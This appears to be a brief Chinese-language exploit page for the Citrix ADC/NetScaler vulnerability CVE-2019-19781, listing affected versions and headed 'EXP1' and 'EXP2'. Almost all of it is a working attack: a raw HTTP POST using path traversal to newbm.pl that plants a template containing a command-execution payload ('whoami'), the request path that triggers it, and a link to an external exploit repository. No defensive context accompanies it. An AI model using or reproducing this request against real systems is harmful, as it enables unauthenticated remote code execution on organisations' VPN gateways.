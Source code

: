 漏洞影響
--------

Citrix 13.x,12.1,12.0,11.1,10.5

EXP1
----

    POST /vpn/../vpns/portal/scripts/newbm.pl HTTP/1.1
    Host: target-ip
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.23.0
    NSC_NONCE: nsroot
    NSC_USER: ../../../netscaler/portal/templates/15ffbdca
    Content-Length: 89

    url=http://example.com&title=test&desc=[% template.new('BLOCK' = 'print whoami') %]

Payload:

    /vpn/../vpns/portal/test.xml

EXP2
----

<https://codeload.github.com/jas502n/CVE-2019-19781/zip/master>